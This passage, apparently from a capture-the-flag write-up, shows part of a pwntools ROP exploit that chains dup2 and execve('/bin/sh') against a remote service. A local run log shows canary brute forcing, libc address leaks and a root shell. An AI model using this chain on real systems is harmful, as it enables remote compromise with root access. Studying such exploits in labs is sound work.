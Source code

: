 ```
exploit += p64(1)
exploit += p64(1)
exploit += dup2

# dup2(4,2)
exploit += pop_rdi_ret
exploit += p64(4)
exploit += pop_rsi_r15_ret
exploit += p64(2)
exploit += p64(2)
exploit += dup2

# execve("/bin/sh", 0, 0)
exploit += pop_rdi_ret
exploit += binsh
exploit += pop_rsi_r15_ret
exploit += p64(0)
exploit += p64(0)
exploit += pop_rdx_ret
exploit += p64(0)
exploit += execve

time.sleep(1)
log.info("Sending shell exploit")
p = remote(host, port)
p.recvuntil("Please enter the message you want to send to admin:\n")
p.send(exploit)
p.interactive()
p.close()

```

#### Test Locally

First I tested locally, and it worked:

```

root@kali# python3 rope_root-remote3.py local
[*] Starting brute force
[+] Brute forcing Canary: Finished in 147.60 seconds
[+] Canary:             0x2dc703f3464e4300
[+] Brute forcing RBP: Finished in 188.66 seconds
[+] RBP:                0x00007ffec5a79900
[+] Brute forcing Return Address: Finished in 85.28 seconds
[+] Return Address:     0x0000557c214f5562
[*] Sending exploit to leak libc write address
[+] Opening connection to 127.0.0.1 on port 1337: Done
[+] libc write address: 0x00007fc4383a87d0
[*] Closed connection to 127.0.0.1 port 1337
[+] Calculated addresses:
    libc_base:          0x00007fc4382bd000
    dup2:               0x00007fc4383a8f00
    execve:             0x00007fc438384d60
    binsh:              0x00007fc438440cee
[*] Sending shell exploit
[+] Opening connection to 127.0.0.1 on port 1337: Done
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) groups=0(root)

```
